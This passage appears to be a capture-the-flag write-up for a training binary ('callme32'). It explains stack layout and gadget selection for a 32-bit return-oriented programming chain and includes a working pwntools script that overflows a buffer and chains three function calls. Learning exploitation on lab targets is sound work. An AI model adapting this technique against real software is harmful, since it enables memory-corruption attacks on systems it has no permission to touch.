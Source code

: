 | ebp+0x8 | 0xdeadbeef | 1st argument |
| ebp+0x4 | rop_gadget | ROP gadget to pop 12 bytes above it |
| ebp | ........ | saved EBP from caller |

Since an ROP gadget usually has a `ret` instruction, when the ROP gadget has been executed, the next item on the stack will be the address of the next function. The `ret` instruction will then pop that address into `eip`, where the program then continues on from. After the first ROP gadget, `callme_two()` should be running, and the stack should look like this:

| Address | Value | Remarks |
| - | - | - |
| ebp+0x24 | 0xd00df00d | 3rd argument |
| ebp+0x20 | 0xcafebabe | 2nd argument |
| ebp+0x1c | 0xdeadbeef | 1st argument |
| ebp+0x18 | b"AAAA" | overwritten saved EIP |
| ebp+0x14 | `callme_three()` | Address of `callme_three()` |
| ebp+0x10 | 0xd00df00d | 3rd argument |
| ebp+0xc | 0xcafebabe | 2nd argument |
| ebp+0x8 | 0xdeadbeef | 1st argument |
| ebp+0x4 | rop_gadget | ROP gadget to pop 12 bytes above it |
| ebp | ........ | saved EBP from caller |

With the core concepts laid out, we can look for a ROP gadget that pops 12 bytes from the stack. The gadget below is perfect for the task. The `add esp, 8` instruction gets rid of the first 8 bytes while the `pop ebx` discards the next 4 bytes.

```bash
$ ROPgadget --binary ./callme32
...
0x080484aa : add esp, 8 ; pop ebx ; ret
...
```

This should be enough to formulate our attack:

```python
from pwn import *
...
ARG0 = 0xdeadbeef
ARG1 = 0xcafebabe
ARG2 = 0xd00df00d
ARGS_COMBINED = p32(ARG0) + p32(ARG1) + p32(ARG2)

ADDESP8_POPEBX_RET = p32(0x80484aa) # add esp, 8; pop ebx; ret

attack = b"A"*44 # buffer garbage
attack += p32(exe.symbols["callme_one"]) + ADDESP8_POPEBX_RET + ARGS_COMBINED
attack += p32(exe.symbols["callme_two"]) + ADDESP8_POPEBX_RET + ARGS_COMBINED
attack += p32(exe.symbols["callme_three"]) + b"AAAA" + ARGS_COMBINED
io.sendline(attack)
...
```